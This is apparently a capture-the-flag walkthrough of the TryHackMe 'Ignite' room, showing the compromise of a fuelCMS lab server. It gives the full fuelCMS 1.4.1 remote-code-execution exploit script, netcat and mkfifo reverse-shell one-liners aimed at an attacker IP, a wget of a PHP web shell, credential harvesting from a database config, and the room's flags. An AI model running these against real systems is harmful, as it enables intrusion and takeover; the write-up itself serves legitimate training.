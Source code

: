 ```yaml
---
description: 'https://tryhackme.com/room/ignite'
---
```


# Ignite

## INIT

```text
export ignite=10.10.28.158
ping $ignite

echo "10.10.28.158 ignite.thm" >> /etc/hosts
```

## NMAP

```text
nmap -sC -sV -O $ignite
```

![](../.gitbook/assets/image%20%28423%29.png)

## GOBUSTER

```text
gobuster dir -u $ignite -w /usr/share/wordlists/dirb/common.txt -q -t 15 -x php,html,txt
```

![](../.gitbook/assets/image%20%28377%29.png)

## HTTP

![](../.gitbook/assets/image%20%28401%29.png)

![](../.gitbook/assets/image%20%28418%29.png)

![](../.gitbook/assets/image%20%28386%29.png)

{% hint style="info" %}
login: admin

password: admin
{% endhint %}

![](../.gitbook/assets/image%20%28399%29.png)

![](../.gitbook/assets/image%20%28376%29.png)

```text
searchsploit Fuel
searchsploit -p 47138
```

![](../.gitbook/assets/image%20%28414%29.png)

```text
cp /usr/share/exploitdb/exploits/linux/webapps/47138.py ignite.py
```

```text
# Exploit Title: fuelCMS 1.4.1 - Remote Code Execution
# Date: 2019-07-19
# Exploit Author: 0xd0ff9
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763


import requests
import urllib
import urllib.parse

url = "http://10.10.39.95"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
        xxxx = input('cmd:')
        burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.parse.quote(xxxx)+"%27%29%2b%27"
        proxy = {"http":"http://127.0.0.1:8080"}
        r = requests.get(burp0_url, proxies=proxy)

        html = "<!DOCTYPE html>"
        htmlcharset = r.text.find(html)

        begin = r.text[0:20]
        dup = find_nth_overlapping(r.text,begin,2)

        print(r.text[0:dup])

```

![](../.gitbook/assets/image%20%28379%29.png)

```text
nc -e /bin/sh 10.14.4.204 1234
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.14.4.204 4444 >/tmp
```

![](../.gitbook/assets/image%20%28395%29.png)

```text
cmd:bash shell.sh
```

![](../.gitbook/assets/image%20%28412%29.png)

```text
python3 ignite.py
wget http://10.14.4.204:8000/phpbash.php
```

![](../.gitbook/assets/image%20%28391%29.png)

![](../.gitbook/assets/image%20%28404%29.png)

![](../.gitbook/assets/image%20%28383%29.png)

![](../.gitbook/assets/image%20%28408%29.png)

### User.txt

{% hint style="success" %}
6470e394cbf6dab6a91682cc8585059b
{% endhint %}

```text
python -c 'import pty; pty.spawn("/bin/bash")'
```

![](../.gitbook/assets/image%20%28403%29.png)

```text
 cat /var/www/html/fuel/application/config/database.php
```

![](../.gitbook/assets/image%20%28415%29.png)

```text
su -
password: mememe
cat /root/root.txt
```

![](../.gitbook/assets/image%20%28400%29.png)

### Root.txt

{% hint style="success" %}
b9bbcb33e11b80be759c4e844862482d
{% endhint %}

